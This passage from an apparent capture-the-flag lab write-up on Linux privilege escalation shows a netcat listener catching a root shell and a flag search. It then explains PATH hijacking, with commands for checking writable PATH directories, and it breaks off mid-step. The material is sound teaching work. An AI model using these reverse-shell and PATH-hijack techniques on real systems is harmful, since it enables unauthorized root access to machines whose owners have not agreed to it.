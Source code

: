 Start the listener:

```bash
nc -lnvp 8080
root@ip-10-10-237-210:~# id
uid=0(root) gid=0(root) groups=0(root)
root@ip-10-10-237-210:~# find / -name flag5.txt 2>/dev/null
/home/ubuntu/flag5.txt

```

## Privilege Escalation: PATH

`PATH` is an environment variable that stores a list of directories. When you run a command like `ls` or `python`, Linux searches through the directories listed in `PATH` to find the executable for that command.

**What happens if a folder you can write to is in the PATH?** If there is a folder in **$PATH** (e.g. `/tmp` or `.`) that you can write to, then:

- You can create a fake version of any command (like `ls`, or `cat`) in that writable folder.
- If a privileged user (like root) or a SUID binary relies on a command without specifying a full path, your fake script might get executed instead of the real one.

This depends entirely on the existing configuration of the target system, so be sure you can answer the questions below before trying this.

1. What folders are located under $PATH?

```bash
echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

```

1. Does your current user have write privileges for any of these folders?

For each directory, check write permissions by using:  `ls -ld <directory>`. Look for the write permission indicator (`w`) in the output for 'others' or 'group' permissions.

```bash
$ ls -ld /usr/local/sbin /usr/local/bin /usr/sbin /usr/bin /sbin /bin /usr/games /usr/local/games /snap/bin
lrwxrwxrwx 1 root root     7 Oct 26  2020 /bin -> usr/bin
lrwxrwxrwx 1 root root     8 Oct 26  2020 /sbin -> usr/sbin
drwxr-xr-x 2 root root  4096 Oct 22  2021 /snap/bin
drwxr-xr-x 2 root root 28672 Oct 26  2020 /usr/bin
drwxr-xr-x 2 root root  4096 Apr 15  2020 /usr/games
drwxr-xr-x 2 root root  4096 Oct 26  2020 /usr/local/bin
drwxr-xr-x 2 root root  4096 Oct 26  2020 /usr/local/games
drwxr-xr-x 2 root root  4096 Oct 26  2020 /usr/local/sbin
drwxr-xr-x 2 root root 12288 Oct 26  2020 /usr/sbin

```

1. Can you modify $PATH?
